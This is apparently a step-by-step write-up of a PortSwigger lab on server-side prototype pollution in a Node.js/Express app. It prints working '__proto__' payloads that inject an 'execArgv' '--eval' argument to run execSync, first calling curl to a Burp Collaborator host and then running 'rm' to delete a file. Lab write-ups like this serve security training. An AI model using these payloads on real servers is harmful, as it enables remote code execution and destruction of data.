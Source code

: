 
# Remote code execution via server-side prototype pollution

## This lab is built on Node.js and the Express framework. It is vulnerable to server-side [prototype pollution](https://portswigger.net/web-security/prototype-pollution) because it unsafely merges user-controllable input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that you can inject arbitrary system commands that are subsequently executed on the server.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget that you can use to inject and execute arbitrary system commands.
3. Trigger remote execution of a command that deletes the file `/home/carlos/morale.txt`.

In this lab, you already have escalated privileges, giving you access to admin functionality. You can log in to your own account with the following credentials: `wiener:peter`

___

step 1

login to account, you will see Billing and Delivery Address click submit
you will get `/my-account/change-address`
send to repeater

![](images/lab9_post_request_change_address.jpg)

step 2

send POST/GET  request  to access `/admin`

![](images/lab9_admin_panel_but_no_user.jpg)

step 3

open admin panel run maintenance jobs
you will see both task completed

![](images/lab9_run_maintenance_job.jpg)
![](images/lab9_completed_maintenance_job.jpg)

step 4

add a new property to the JSON with the name `__proto__`, containing an object with a `json spaces` property

```json
"__proto__": { 
"json spaces":10 
}
```

![](images/lab9_add_propertied_json_space.jpg)

step 5

Try polluting the prototype with a malicious `execArgv` property that adds the `--eval` argument to the spawned child process.
Use this to call the `execSync()` sink, passing in a command that triggers an interaction with the public Burp Collaborator server.

payload_example:
```
"__proto__": { 
"execArgv":[ 
"--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')" 
	] 
}
```

burp collaborator  url `59c8tszz0lolf2z00h8wl6mvhmndb4zt.oastify.com`

#payload_child_process
```json
"__proto__": { 
"execArgv":[ 
"--eval=require('child_process').execSync('curl https://59c8tszz0lolf2z00h8wl6mvhmndb4zt.oastify.com')" 
	] 
}
```


![](images/lab9_add_first_payload_using_burp_collaborator.jpg)

step 6

go to the admin panel and trigger the maintenance jobs again.
you have received several DNS interactions

![](images/lab9_burp_collaborator_several_dns_response.jpg)


step 7
replace the `curl` command with a command for deleting Carlos's file
final payload 

```json
"__proto__": { 
"execArgv":[ 
"--eval=require('child_process').execSync('rm /home/carlos/morale.txt')" 
	] 
}
```

![](images/lab9_add_payload_remove_carlos_account.jpg)

step 8


go to the admin panel and trigger the maintenance jobs again.
this time one of the job not completed  and you lab will solved


![](images/lab9_lab_solved.jpg)